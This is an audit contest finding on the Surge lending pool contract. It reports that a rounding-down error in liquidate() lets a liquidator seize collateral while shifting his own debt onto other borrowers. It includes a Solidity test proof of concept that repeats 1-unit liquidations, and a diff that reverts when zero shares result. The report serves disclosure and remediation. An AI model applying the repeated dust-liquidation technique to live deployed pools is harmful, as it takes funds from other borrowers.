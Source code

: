 chaduke

high

# A liquidator can gain not only collateral, but also can reduce his own debt!

## Summary
A liquidator can gain not only collateral, but also can reduce his own debt. 
This is achieved by taking advantage of the following vulnerability of the ``liquidate()``:
it has a rounding down precision error and when one calls liquidate(Bob, 1), it is possible that the total debt is reduced by 1, but the debt share is 0, and thus Bob's debt shares will not be reduced.   In this way, the liquidator can shift part of debt to the remaining borrowers while getting the collateral of the liquidation. 

In summary, the liquidator will be able to liquidate a debtor, grab proportionately the collateral, and in addition, reduce his own debt by shifting some of his debt to the other borrowers. 

## Vulnerability Detail
Below,  I explain the vulnerability and then show the code POC to demonstate how a liquidator can gain collateral as well as reduce his own debt!

1) The ``liquidate()`` function calls ``tokenToShares()`` at L587 to calculate the number of debt shares for the input ``amount``. Note it uses a rounding-down.

[https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L553-L609](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L553-L609)

2) Due to rounding down, it is possible that while ``amount !=0``, the returned number of debt shares could be zero!

[https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204)

3) In the following code POC, we show that Bob (the test account) and Alice (address(1)) both borrow 1000 loan tokens, and after one year, each of them owe 1200 loan tokens.  Bob liquidates Alice's debt with 200 loan tokens. Bob gets the  200 collateral tokens (proportionately). In addition, Bob reduces his own debt from 1200 to 1100!

To run this test, one needs to change ``pool.getDebtOf()`` as a public function. 

```javascript
function testLiquidateSteal() external {
        uint loanTokenAmount = 12000;
        uint borrowAmount = 1000;
        uint collateralAmountA = 10000;
        uint collateralAmountB = 1400;
        MockERC20 collateralToken = new MockERC20(collateralAmountA+collateralAmountB, 18);
        MockERC20 loanToken = new MockERC20(loanTokenAmount, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 0.8e18, 0.5e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        loanToken.approve(address(pool), loanTokenAmount);
        pool.deposit(loanTokenAmount);

        // Alice borrows 1000 
        collateralToken.transfer(address(1), collateralAmountB);
        vm.prank(address(1));
        collateralToken.approve(address(pool), collateralAmountB);
        vm.prank(address(1));
        pool.addCollateral(address(1), collateralAmountB);
        vm.prank(address(1));
        pool.borrow(borrowAmount);

        // Bob borrows 1000 too 
        collateralToken.approve(address(pool), collateralAmountA);
        pool.addCollateral(address(this), collateralAmountA);
        pool.borrow(borrowAmount);

       // Bob's debt becomes 1200
       vm.warp(block.timestamp + 365 days);
       pool.withdraw(0);
       uint mydebt = pool.getDebtOf(pool.debtSharesBalanceOf(address(this)), pool.debtSharesSupply(), pool.lastTotalDebt());
       assertEq(mydebt, 1200);    

      // Alice's debt becomes 1200
       uint address1Debt = pool.getDebtOf(pool.debtSharesBalanceOf(address(1)), pool.debtSharesSupply(), pool.lastTotalDebt());
       assertEq(address1Debt, 1200);  
       assertEq(pool.lastTotalDebt(), 2399);  

       uint myCollateralBeforeLiquidate = collateralToken.balanceOf(address(this));

       // liquidate 200 for Alice
       loanToken.approve(address(pool), 200);
       for(int i; i<200; i++)
            pool.liquidate(address(1), 1);

      // Alice's debt shares are NOT reduced, now Bob's debt is reduced to 1100
       uint debtShares = pool.debtSharesBalanceOf(address(1));
       assertEq(debtShares, 1000);
       assertEq(pool.lastTotalDebt(), 2199);
       address1Debt = pool.getDebtOf(pool.debtSharesBalanceOf(address(1)), pool.debtSharesSupply(), pool.lastTotalDebt());
       assertEq(address1Debt, 1100); 
       mydebt = pool.getDebtOf(pool.debtSharesBalanceOf(address(this)), pool.debtSharesSupply(), pool.lastTotalDebt());
       assertEq(mydebt, 1100);    

       // Bob gains the collateral as well proportionately 
       uint myCollateralAfterLiquidate = collateralToken.balanceOf(address(this));
       assertEq(myCollateralAfterLiquidate-myCollateralBeforeLiquidate, 200);
    }
```


## Impact
A liquidator can gain not only collateral, but also can reduce his own debt. Thus, he effectively steals funding from the pool by off-shifting his debt to the remaining borrowers. 

## Code Snippet
See above

## Tool used
VScode

Manual Review

## Recommendation
We need to double check this edge case and now allowing the liquidate() to proceed when the # of debt shares is Zero.
```diff
 function liquidate(address borrower, uint amount) external {
        uint _loanTokenBalance = LOAN_TOKEN.balanceOf(address(this));
        (address _feeRecipient, uint _feeMantissa) = FACTORY.getFee();
        (  
            uint _currentTotalSupply,
            uint _accruedFeeShares,
            uint _currentCollateralRatioMantissa,
            uint _currentTotalDebt
        ) = getCurrentState(
            _loanTokenBalance,
            _feeMantissa,
            lastCollateralRatioMantissa,
            totalSupply,
            lastAccrueInterestTime,
            lastTotalDebt
        );

        uint collateralBalance = collateralBalanceOf[borrower];
        uint _debtSharesSupply = debtSharesSupply;
        uint userDebt = getDebtOf(debtSharesBalanceOf[borrower], _debtSharesSupply, _currentTotalDebt);
        uint userCollateralRatioMantissa = userDebt * 1e18 / collateralBalance;
        require(userCollateralRatioMantissa > _currentCollateralRatioMantissa, "Pool: borrower not liquidatable");

        address _borrower = borrower; // avoid stack too deep
        uint _amount = amount; // avoid stack too deep
        uint _shares;
        uint collateralReward;
        if(_amount == type(uint).max || _amount == userDebt) {
            collateralReward = collateralBalance;
            _shares = debtSharesBalanceOf[_borrower];
            _amount = userDebt;
        } else {
            uint userInvertedCollateralRatioMantissa = collateralBalance * 1e18 / userDebt;
            collateralReward = _amount * userInvertedCollateralRatioMantissa / 1e18; // rounds down
            _shares = tokenToShares(_amount, _currentTotalDebt, _debtSharesSupply, false);
        }
    
+     if(_shares == 0) revert ZeroShareLiquidateNotAllowed();

        _currentTotalDebt -= _amount;

        // commit current state
        debtSharesBalanceOf[_borrower] -= _shares;
        debtSharesSupply = _debtSharesSupply - _shares;
        collateralBalanceOf[_borrower] = collateralBalance - collateralReward;
        totalSupply = _currentTotalSupply;
        lastTotalDebt = _currentTotalDebt;
        lastAccrueInterestTime = block.timestamp;
        lastCollateralRatioMantissa = _currentCollateralRatioMantissa;
        emit Liquidate(_borrower, _amount, collateralReward);
        if(_accruedFeeShares > 0) {
            address __feeRecipient = _feeRecipient; // avoid stack too deep
            balanceOf[__feeRecipient] += _accruedFeeShares;
            emit Transfer(address(0), __feeRecipient, _accruedFeeShares);
        }

        // interactions
        safeTransferFrom(LOAN_TOKEN, msg.sender, address(this), _amount);
        safeTransfer(COLLATERAL_TOKEN, msg.sender, collateralReward);
    }
```